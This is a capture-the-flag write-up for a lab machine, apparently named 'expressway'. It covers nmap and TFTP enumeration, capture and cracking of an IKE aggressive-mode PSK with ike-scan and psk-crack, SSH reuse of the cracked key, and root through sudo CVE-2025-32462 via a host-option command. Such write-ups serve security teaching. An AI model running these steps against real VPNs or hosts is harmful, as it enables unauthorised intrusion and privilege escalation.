










### ~# Nmap Scan

####     > TCP scan
First, perform a TCP scan using nmap:

```bash
└─$ sudo nmap -sCV $TARGET -T5 -v -oN nmap-scan
```
The scan reveals only one open TCP port:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
```
####     > UDP scan

Next, I performed a UDP scan which discovered several additional services:
```bash
└─$ sudo nmap -sU $TARGET 
```
Results:
```bash
PORT      STATE         SERVICE
68/udp    open|filtered dhcpc
69/udp    open|filtered tftp
500/udp   open          isakmp
1046/udp  open|filtered wfremotertm
4500/udp  open|filtered nat-t-ike
49220/udp open|filtered unknown
```
There are two interesting vectors:

- ports 4500 and 500 
    -> IPSec/IKE

- tftp
    -> files

```bash
└─$ sudo nmap -A -sU -p68,69,500,1046,4500,49220 $TARGET
```


```bash
PORT      STATE         SERVICE     VERSION
68/udp    open|filtered dhcpc
69/udp    open          tftp        Netkit tftpd or atftpd
500/udp   open          isakmp?
| ike-version: 
|   attributes: 
|     XAUTH
|_    Dead Peer Detection v1.0
1046/udp  closed        wfremotertm
4500/udp  open|filtered nat-t-ike
49220/udp closed        unknown
```

For convenience, we add an entry to /etc/hosts:
```
└─$ echo -n "\n$TARGET\texpressway.htb" | sudo tee -a /etc/hosts
```

## ~# tftp enum
TFTP (Trivial File Transfer Protocol) is a simple file transfer protocol that does not support directory listing by default.

When connecting with the standard tftp client, we cannot list files on the server.
To enumerate available files we can use the Nmap NSE script:
```bash
└─$ nmap -sU -p 69 --script tftp-enum $TARGET
```
The result: 
```bash
PORT   STATE SERVICE
69/udp open  tftp
| tftp-enum: 
|_  ciscortr.cfg
```
tftp is not secure because it lacks both authentication and encryption.


The retrieved file is a Cisco router configuration containing information about the IPsec VPN setup.
The configuration file contains the following entry:
```bash
username ike password *****
```
This suggests a valid system/VPN user: ike

## ~# IPsec / IKE

The primary attack surface is IKE on UDP/500. Nmap default scripts discovered the version of the IKE protocol.

A detailed testing methodology can be found here:
https://book.hacktricks.wiki/en/network-services-pentesting/ipsec-ike-vpn-pentesting.html

Brief intro to IKE in lab context:
IPsec connections are established after negotiating a **Security Association (SA)** between two peers.  
This negotiation is handled by the **IKE (Internet Key Exchange)** protocol.

### IKEv1 Phases
Phase 1 → During this phase, the peers authenticate each other and negotiate parameters required to create the ISAKMP tunnel.
This phase supports two operating modes: Main Mode and Aggressive Mode.

The key difference between them is that in Main Mode, parameters are exchanged step-by-step and authentication occurs at the end of the process.
In contrast, Aggressive Mode can be considered a shortened version of Main Mode, where more information is exchanged in fewer messages.

Aggressive Mode is less secure because an attacker may obtain additional information about the parameters used and a hashed Pre-Shared Key (PSK). If the attacker is able to crack the PSK, they could establish a connection with the target.

Phase 2 → Through the previously established secure ISAKMP tunnel, the peers negotiate the Security Association (SA) for the main tunnel, which will be used to transmit user traffic.

If Aggressive Mode is enabled, it exposes enough information for an attacker to:
1. Capture the hash
2. Perform offline brute-force
3. Recover the PSK

### > Attacking IKEv1

The router configuration file also contains a PSK used for the VPN connection.

The tool **ike-scan** can be used to enumerate IKE services.

Execute the following command:
`ike-scan -M -A expressway.htb`



```bash
--aggressive or -A              Use IKE Aggressive Mode (The default is Main Mode)
--multiline or -M               Split the payload decode across multiple lines.
--pskcrack[=<f>] or -P[<f>]     Crack aggressive mode pre-shared keys.
```

Run the command again with the additional parameter to capture the PSK hash:
`ike-scan -M -A expressway.htb -Ppsk_hash`



## ~# PSK-crack
To crack a PSK we will use psk-crack:
`└─$ psk-crack --dictionary=/usr/share/wordlists/rockyou.txt ./psk_hash`


The PSK was successfully recovered.

\[+] PSK -> freekingrockstarontheroad

## ~# User shell obtained

The IKE identity reveals a possible username: ike.
`ID(Type=ID_USER_FQDN, Value=ike@expressway.htb)`

Since SSH is exposed on the system, we can attempt to authenticate using this account.
Since we already have:
- username: ike
- PSK: freekingrockstarontheroad
Although the PSK is intended for VPN authentication, weak password reuse is common.
Using these credentials we can authenticate via SSH:
`ssh ike@expressway.htb`

[+] /home/ike/user.txt

## ~# LPE


-> user.txt is captured.

Next step -> privilege escalation.
First, check sudo permissions:
`sudo -l`
The user has no direct sudo privileges.
`:~$ find / -perm -4000 -user root 2>/dev/null`


The enumeration reveals two sudo binaries.

Running linpeas reveals:


\[!] sudo version 1.9.17 is vulnerable to CVE-2025-32462 and CVE-2025-32463.

I tried to use the first one.

## ~# Root shell
Since the vulnerability involves host-based rules, we look for other hostnames referenced in logs.
This reveals one additional host in the /var/log directory:
`~$ grep -rns "expressway.htb" /var/log`


Using the CVE-2025-32462, we can trick sudo into applying rules intended for another host.

https://www.exploit-db.com/exploits/52354

```
Executing a sudo or sudoedit command with the host option referencing an unrelated remote 
host rule causes Sudo to treat the rule as valid for the local system. As a result, any command 
allowed by the remote host rule can be executed on the local machine.
```


\[+] another host ->  offramp.expressway.htb

This grants a root shell locally.

`/usr/local/bin/sudo -h offramp.expressway.htb -i`


